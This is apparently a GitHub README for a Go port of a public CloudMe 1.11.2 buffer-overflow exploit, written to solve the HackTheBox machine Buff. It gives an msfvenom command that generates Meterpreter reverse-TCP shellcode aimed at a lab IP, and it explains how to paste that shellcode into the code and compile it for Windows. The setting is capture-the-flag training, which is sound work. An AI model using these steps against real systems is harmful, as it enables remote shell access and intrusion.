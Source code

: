 # Cloudme 1.11.2 exploit Go version



The code in this repository is based on the exploit 48389 for cloudme v1.11.2.
https://www.exploit-db.com/exploits/48389

I ported the code to Go, to solve the HTB machine Buff. 



## Before you compile

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f py -b "\x00\x0a\x0d" -v shellcode
```

Replace LHOST= with your HackTheBox lab IP address.

Then copy and paste the generated code into main.go

## Compile

```
GOOS=windows go build
```


